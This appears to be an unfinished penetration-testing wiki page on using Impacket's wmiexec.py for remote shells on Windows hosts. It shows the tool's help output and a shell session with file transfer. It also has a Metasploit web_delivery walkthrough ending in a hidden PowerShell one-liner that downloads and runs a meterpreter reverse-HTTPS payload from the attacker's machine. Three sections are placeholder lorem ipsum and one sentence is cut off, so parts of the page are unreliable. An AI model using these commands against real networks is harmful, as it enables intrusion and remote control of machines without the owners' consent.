 The Impacket example script `wmiexec.py` is found in the examples directory:

https://github.com/CoreSecurity/impacket/tree/master/examples


### Help Output

```
Impacket v0.9.14-dev - Copyright 2002-2015 Core Security Technologies

usage: wmiexec.py [-h] [-share SHARE] [-nooutput] [-debug]
                  [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                  target [command [command ...]]

Executes a semi-interactive shell using Windows Management Instrumentation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  command               command to execute at the target. If empty it will
                        launch a semi-interactive shell

optional arguments:
  -h, --help            show this help message and exit
  -share SHARE          share where the output will be grabbed from (default
                        ADMIN$)
  -nooutput             whether or not to print the output (no SMB connection
                        created)
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters.
                        If valid credentials cannot be found, it will use the
                        ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

```


By default, wmiexec will 


## Getting Shells

Getting shells is awesome, but there is a reason why you don't want to just run cmd.exe as the executable to run. Impacket has a special thing it does when you leave the executable off that allows for uploads and downloads, which cmd.exe

### Basic Shell

The basic shell in wmiexec.py is essentially `%COMSPEC%` / cmd.exe with one tine difference, you can upload and download directly from it. This holds a lot of weight when you think about the capabilities to authenticate that Impacket has (password/hashes/kerberos).

```
python wmiexec.py administrator@172.16.102.135
Impacket v0.9.14-dev - Copyright 2002-2015 Core Security Technologies

Password:
[*] SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\temp>
C:\temp>help

 lcd {path}                 - changes the current local directory to {path}
 exit                       - terminates the server process (and this session)
 put {src_file, dst_path}   - uploads a local file to the dst_path (dst_path = default current directory)
 get {file}                 - downloads pathname to the current local dir
 ! {cmd}                    - executes a local shell cmd

C:\temp>get test.log
[*] Downloading C:\\temp\test.log
```

### Shell with Hashes

Lorem ipsum dolor sit amet, consectetur adipiscing elit. Fusce at iaculis ex, quis ultrices tortor. Nunc fringilla est eu commodo pretium. Praesent blandit dui ante, eu viverra est molestie id. Donec at tellus lacinia, sollicitudin nisl et, mattis tellus. Fusce molestie justo nec mauris feugiat tincidunt. Phasellus non dolor tempor, interdum justo ac, tempus justo. Ut porta, nisi quis cursus fringilla, augue massa gravida dui, nec accumsan nisl justo eu quam. Duis sit amet eleifend orci. Nunc ornare nibh commodo lectus ultrices, id luctus sem molestie.

### Shell with Kerberos

Lorem ipsum dolor sit amet, consectetur adipiscing elit. Fusce at iaculis ex, quis ultrices tortor. Nunc fringilla est eu commodo pretium. Praesent blandit dui ante, eu viverra est molestie id. Donec at tellus lacinia, sollicitudin nisl et, mattis tellus. Fusce molestie justo nec mauris feugiat tincidunt. Phasellus non dolor tempor, interdum justo ac, tempus justo. Ut porta, nisi quis cursus fringilla, augue massa gravida dui, nec accumsan nisl justo eu quam. Duis sit amet eleifend orci. Nunc ornare nibh commodo lectus ultrices, id luctus sem molestie.

### Shell with aesKey

Lorem ipsum dolor sit amet, consectetur adipiscing elit. Fusce at iaculis ex, quis ultrices tortor. Nunc fringilla est eu commodo pretium. Praesent blandit dui ante, eu viverra est molestie id. Donec at tellus lacinia, sollicitudin nisl et, mattis tellus. Fusce molestie justo nec mauris feugiat tincidunt. Phasellus non dolor tempor, interdum justo ac, tempus justo. Ut porta, nisi quis cursus fringilla, augue massa gravida dui, nec accumsan nisl justo eu quam. Duis sit amet eleifend orci. Nunc ornare nibh commodo lectus ultrices, id luctus sem molestie.


## Useful combos


### Web Delivery plus WMIEXEC through a Metasploit socks4a Proxy

First, we assume that you already have a single shell, one way or another into a corporate network. The internal range used by the network you've gotten a shell on is `172.16.102.0/24` and you are running as an admin.


 ```
msf exploit(web_delivery) > set SRVPORT 8443
SRVPORT => 8443
msf exploit(web_delivery) > set URIPATH /download
URIPATH => /download
msf exploit(web_delivery) > set LPORT 8443
LPORT => 8443
msf exploit(web_delivery) > set TARGET 2
TARGET => 2
msf exploit(web_delivery) > show targets
msf exploit(web_delivery) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https

Exploit targets:

   Id  Name
   --  ----
   0   Python
   1   PHP
   2   PSH


msf exploit(web_delivery) > show options

Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8443             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH  /download        no        The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: , , seh, thread, process, none)
   LHOST     172.16.102.1     yes       The listen hostname
   LPORT     8443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   PSH


msf exploit(web_delivery) > set SSL true
SSL => true
msf exploit(web_delivery) > exploit -j
[*] Exploit running as background job.
msf exploit(web_delivery) >
[*] Started reverse handler on 172.16.102.1:8443
[*] Using URL: https://0.0.0.0:8443/download
[*] Local IP: https://192.168.92.105:8443/download
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};IEX ((new-object net.webclient).downloadstring('https://172.16.102.1:8443/download'))

msf exploit(web_delivery) >
 ```
